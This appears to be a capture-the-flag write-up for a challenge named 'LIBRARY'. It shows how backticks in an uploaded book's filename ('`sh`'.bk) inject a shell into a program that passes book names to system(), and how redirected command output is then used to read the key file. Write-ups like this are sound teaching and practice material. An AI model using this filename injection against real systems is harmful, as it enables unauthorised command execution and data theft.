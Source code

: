 ## LIBRARY [120]

## Solution
Looking at disassembly in IDA, we can see that book names must end in `".bk"` and the first four bytes of the contents must be `"BBBB"`. Add a book and use backticks in the file name to inject a shell. Then list the books and the call to `system()` on the book name will spawn the shell. You will not be able to see `stdout` nor `stderr` in the shell, but you can just redirect command output to a folder in `/tmp` and look at it later (or at the same time with a different SSH session):
```
ameise@shell:/tmp/ameise$ nc localhost 54567
Welcome to our library! What can I do for you?
  1. Upload book
  2. List books
  3. Delete books
  4. Quit

Enter command: 1
Book filename: '`sh`'.bk
e-book contents: 
BBBB
Welcome to our library! What can I do for you?
  1. Upload book
  2. List books
  3. Delete books
  4. Quit

Enter command: 2
Book list:
Size	E-book
ls > /tmp/ameise/ls.out

[...]

ameise@shell:~$ cat /tmp/ameise/ls.out 
key
lib
library

[...]

cat key > /tmp/ameise/key

[...]

ameise@shell:~$ cat /tmp/ameise/key
e033126167415751e1bde7254257d3c4
```
